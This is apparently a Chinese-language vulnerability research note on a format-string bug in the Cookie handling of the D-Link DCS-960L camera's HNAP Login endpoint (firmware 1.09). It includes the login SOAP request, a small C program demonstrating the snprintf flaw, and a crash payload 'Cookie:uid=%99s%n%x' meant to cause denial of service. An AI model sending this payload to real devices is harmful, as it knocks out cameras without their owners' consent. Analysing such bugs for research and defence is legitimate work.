



```
https://wzt.ac.cn/2021/01/17/DCS-960L/
```

还是DCS-960L-1.09版本的Login

> DCS-960L 在处理请求中的 Cookie 字段时，错误的将用户提交的数据作为格式化字符串使用，攻击者可以构造特殊格式的 Cookie 触发此漏洞，严重可导致任意代码执行。


用户提交的表单的格式：

```xml-dtd
SOAPAction: http://192.168.0.1/HNAP1/Login
<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <Login xmlns="http://192.168.0.1/HNAP1/">
      <Action></Action>
      <Username>Username</Username>
      <LoginPassword/>
      <Captcha/>
    </Login>
  </soap:Body>
</soap:Envelope>
```


按作者的意思，是这里存在一个格式化字符串漏洞：




emmm，不清楚，写写代码看看。

PoC：

```c
#include<stdio.h>
#include<string.h>
#include<malloc.h>

int main(){
	char *cookie = "N0zoM1z0";
	char *mem = (char*)malloc(0x10);
	snprintf((char*)mem,0xBu,cookie);
	printf("[+] First: %s\n",mem);
	
	char* cookie2 = "%p-%p-%p";
	char *mem2 = (char*)malloc(0x10);
	snprintf((char*)mem2,0xBu,cookie2);
	printf("[+] Second: %s\n",mem2);
	return 0;
}

```




可以看到第二次确实存在格式化字符串漏洞。


那怎么利用呢？这种只能写0xB长度，利用点不大。

但是，可以DoS。。笑死。。。

触发崩溃的话，就用`%s`来访问非法内存即可。再加几项瞎搞。

```
Cookie:uid=%99s%n%x
```

